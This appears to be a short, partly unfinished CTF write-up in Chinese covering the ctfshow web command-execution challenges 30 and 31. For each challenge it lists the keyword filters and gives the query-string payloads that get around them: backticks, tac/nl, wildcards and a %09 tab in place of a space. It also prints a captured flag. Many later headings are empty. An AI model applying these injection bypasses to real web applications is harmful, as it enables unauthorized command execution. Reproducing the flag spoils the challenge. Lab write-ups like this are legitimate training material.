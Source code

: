 # ctfshow-web-wp

## web入门

### 命令执行

>web30

过滤system,cat(不知道为啥),flag,php
``````
?c=`echo tac fla?.?hp`

?c=`echo nl fla?.?hp`
``````

?可以随意放，只要能绕过过滤

>web31

过滤这些：/flag|system|php|cat|sort|shell|\.| |\'/i  
flag,system,cat,sort,shell,.,'

执行命令可以用`,passthru  
输出文件可以用tac,nl
空格好像不能用%20绕过，要用%09之类的
其他字符用*和?绕过


?c=echo`tac%09fla???hp`;

flag:ctfshow{7557e913-fc46-4835-85a0-008dd4ac63e2}

>web32

>web33

>web

>web

>web

>web

>web

>web

>web

>web

>web

>web

>web